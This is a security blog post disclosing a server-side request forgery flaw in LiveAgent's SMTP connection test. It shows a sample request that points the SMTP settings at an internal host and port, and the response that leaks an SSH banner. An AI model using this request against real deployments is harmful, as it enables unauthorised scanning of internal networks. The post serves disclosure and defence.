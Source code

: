```yaml
---
layout: post
title: "SSRF in LiveAgent"
thumbnail: periscope-240.jpg
date: 2016-10-05
---
```


The helpdesk software LiveAgent makes it possible to configure a SMTP server. Since it does not validate the SMTP server parameter and returns the response of the TCP connection, it is vulnerable to server side request forgery.

## Configuring the SMTP server

With LiveAgent it is possible to use your own SMTP server as outgoing mail server. To configure this, you need to enter a host name, port, username, and password. LiveAgent helps the user with debugging any issues by connecting to the server and showing the communication log:

![](/images/ladesk-communication-log-functionality.png)

## Server side request forgery

It is possible to connect to any host on any port and view the resulting communication. This introduces a security vulnerability if there are any hosts that the server can connect to, but the client cannot. For example, other hosts within the same network as the server may be accessible internally, but not from the Internet. Let's try it out by configuring a host on the internal network as SMTP server:

    D={
        "C": "La_Mail_MailAccountSettingsForm",
        "M": "testSmtpConnection",
        "fields": [
            ["name", "value", "values", "error"],
            ["email", "henk@example.com", "", ""],
            ["username", "henk@mailinator.com", "", ""],
            ["password", "henk", "", ""],
            ["smtp_server", "192.168.101.1", "", ""],
            ["smtp_port", "22", "", ""],
            ["useIncomingCredentials", "Y", "", ""]
        ],
        "S": "4916cf1dffaf5641xxxxx5b01c878b8"
    }

This request configures host 192.168.101.1 and port 22 as the SMTP server. The response shows information about the SSH server:

    {
        "F": [
            ["name", "value", "values", "error"],
            ["email", "henk@example.com", "", ""],
            ["username", "henk@mailinator.com", "", ""],
            ["password", "henk", "", ""],
            ["smtp_server", "192.168.101.1", "", ""],
            ["smtp_port", "22", "", ""],
            ["useIncomingCredentials", "Y", "", ""]
            ["communicationLog", "SMTP communication log: 
            2016-07-05-05-58-07-2479 Recv: SSH-2.0-OpenSSH_6.7p1 Debian-5+deb8u2
            2016-07-05-05-58-07-2484 Sent: QUIT
            2016-07-05-05-58-07-2492 Recv: Protocol mismatch
            ", null, ""]
        ],
        "S": "N",
        "M": "Connecting to server failed"
    }

As you can see the server connected to 192.168.101.1 on port 22, and reveals that this host is running OpenSSH 6.7 on Debian.

## Information leakage only

This vulnerability makes it possible to read the response from every port, but we have no control over the data sent. We can use it to obtain information on the network, but we can not send any attacker-controlled data over the network. Nevertheless, this would be a powerful vulnerability if combined for example with a blind SSRF that can only be used to send data.

## Conclusion

Missing validation of the SMTP server parameter makes it possible to connect to hosts on the internal network and read their response on TCP connections.
